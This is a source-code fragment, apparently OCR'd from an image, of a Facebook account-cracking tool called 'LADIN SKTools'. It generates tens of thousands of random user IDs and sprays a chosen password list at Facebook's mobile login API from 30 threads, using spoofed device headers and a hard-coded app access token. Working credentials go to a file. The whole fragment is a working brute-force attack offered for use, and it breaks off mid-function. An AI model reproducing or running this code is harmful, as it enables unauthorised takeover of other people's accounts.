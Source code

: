 	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		limit = 50000
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			os.system('xdg-open https://www.facebook.com/Nahid.Tera.papa.I.c.s.f?mibextid=ZbWKwL')
			os.system('clear')
			print(logo) 
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n\033[1;32m [!] Ex(123456) FOR Old IDZ\033[1;37m ")
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(B))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				os.system("clear")
				print(logo)
				print("     \033[37;41mFREE MODE ACTIVATE\033[0;m\033[1;32m")
				print("\n\033[0;94m [+] BRUTE HAS BEEN START")
				print(" [!] IF NO RESULT USE AIRPLANE MODE 5 SECONDS")
				print("\033[0;94m-----------------------------------------------")
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n \033[0;95m>>[PROCESS COMPLETE... \n\033[0;92m >>[Thanks For Using LADIN SKTools...")
		except Exception as e:exit(str(e))
 
	def api(self, uid, pwx):
		ua = random.choice(ugen)	
		sys.stdout.write(
			"\r\r %s\033[92;1m[LADIN SK] : %s/%s -> \033[0;92m [ OK:%s ]- \033[0;91m[CP:%s ]"%(B,self.loop, len(self.id), len(self.cp), len(self.ok))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[1;32m   [LADIN SK] %s | %s\033[1;32m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				print('  User Agent : %s'%(ua))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[1;32m   [LADIN SK] %s | %s\033[32m         "%(uid, pw))